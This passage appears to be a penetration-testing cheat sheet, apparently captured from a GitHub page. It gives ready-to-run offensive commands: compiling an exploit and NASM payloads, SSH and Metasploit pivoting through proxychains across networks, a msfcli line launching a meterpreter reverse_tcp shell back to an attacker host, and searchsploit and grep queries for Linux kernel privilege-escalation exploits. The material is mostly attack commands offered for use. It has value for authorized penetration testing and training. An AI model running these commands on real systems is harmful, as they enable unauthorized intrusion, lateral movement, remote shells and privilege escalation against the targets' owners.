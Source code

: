 `wine gcc -o ability.exe /tmp/exploit.c -lwsock32`

`wine ability.exe`

## NASM Command:
`nasm -f bin -o payload.bin payload.asm`

`nasm -f elf payload.asm; ld -o payload payload.o; objdump -d payload`

## SSH Pivoting:
`ssh -D 127.0.0.1:1080 -p 22 user@IP`

Add socks4 127.0.0.1 1080 in /etc/proxychains.conf

`proxychains commands target`

## Pivoting to One Network to Another:
`ssh -D 127.0.0.1:1080 -p 22 user1@IP1`

Add socks4 127.0.0.1 1080 in /etc/proxychains.conf

`proxychains ssh -D 127.0.0.1:1081 -p 22 user1@IP2`

Add socks4 127.0.0.1 1081 in /etc/proxychains.conf

`proxychains commands target`

## Pivoting Using metasploit:
````
route add 10.1.1.0 255.255.255.0 1
route add 10.2.2.0 255.255.255.0 1
use auxiliary/server/socks4a
run
````

`proxychains msfcli windows/* PAYLOAD=windows/meterpreter/reverse_tcp LHOST=IP LPORT=443 RHOST=IP E`

## Exploit-DB search using CSV File:
`searchsploit-rb –update`

`searchsploit-rb -t webapps -s WEBAPP`

`searchsploit-rb –search=”Linux Kernel”`

`searchsploit-rb -a “author name” -s “exploit name”`

`searchsploit-rb -t remote -s “exploit name”`

`searchsploit-rb -p linux -t local -s “exploit name”`

## For Privilege Escalation Exploit search
`cat files.csv | grep -i linux | grep -i kernel | grep -i local | grep -v dos | uniq | grep 2.6 | egrep “<|<=” | sort -k3`
